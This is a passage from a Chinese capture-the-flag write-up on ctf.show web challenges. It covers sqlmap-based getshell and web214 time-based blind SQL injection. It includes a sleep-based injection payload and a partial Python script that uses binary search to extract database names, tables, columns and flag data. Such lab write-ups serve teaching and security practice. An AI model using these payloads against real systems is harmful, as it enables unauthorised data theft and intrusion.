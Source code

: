 然后直接默认即可 (就是出现输入就回车)



<img src="https://i-blog.csdnimg.cn/blog_migrate/4f5ae1cbccaaed156ed174e2e5b3cd2b.png" alt="" style="max-height:222px; box-sizing:content-box;" />


发现实现了注入 其实这里回车 就是让sqlmap去尝试默认的路径 和 php执行 然后就可以getshell

我们访问两个文件能发现 其实一个文件上传的源代码然后通过上传 实现getshell



<img src="https://i-blog.csdnimg.cn/blog_migrate/8d2a70f3b79e8634608a37fcc7b9f35e.png" alt="" style="max-height:540px; box-sizing:content-box;" />


## web214 时间盲注

这里开始我们的时间盲注了



<img src="https://i-blog.csdnimg.cn/blog_migrate/c85395bd51998699ea99b70daadf2a45.png" alt="" style="max-height:401px; box-sizing:content-box;" />


啥都么有

我们抓包看看

啥都没有 我也不知道咋搞 看wp吧

然后发现是ip的 所以我们开始手注一下

然后我们发现 其他都是回显语句 但是时间注入是ok的 所以这里其实后端是有查询



<img src="https://i-blog.csdnimg.cn/blog_migrate/3e802efcf9991b51dd6972c460f7456c.png" alt="" style="max-height:496px; box-sizing:content-box;" />


但是 echo $sql; 这种只是让你看到有sql语句

### 二分法

```cobol
ip=if(ascii(substr((select database()),1,1))>1,sleep(2),1)&debug=1
```

payload 确定 我们就开始写脚本

```cobol
import time
 
import requests
 
 
url = "http://9078350b-f715-47ae-8cea-211b548b03b4.challenge.ctf.show/api/"
 
# payload = "if(ascii(substr((select database()),{0},1))>{1},sleep(2),0)"
# payload = "if(ascii(substr((select group_concat(table_name)from information_schema.tables where table_schema=database()),{0},1))>{1},sleep(2),0)"
# payload = "if(ascii(substr((select group_concat(column_name)from information_schema.columns where table_name='ctfshow_flagx'),{0},1))>{1},sleep(2),0)"
payload = "if(ascii(substr((select group_concat(id,'---',flaga,'---',info)from ctfshow_flagx),{0},1))>{1},sleep(2),0)"
flag = ''
 
for i in range(1,100):
    high = 128
    low = 32
    mid = (high+low)//2
    while(high>low):
        payload1=payload.format(i,mid)
```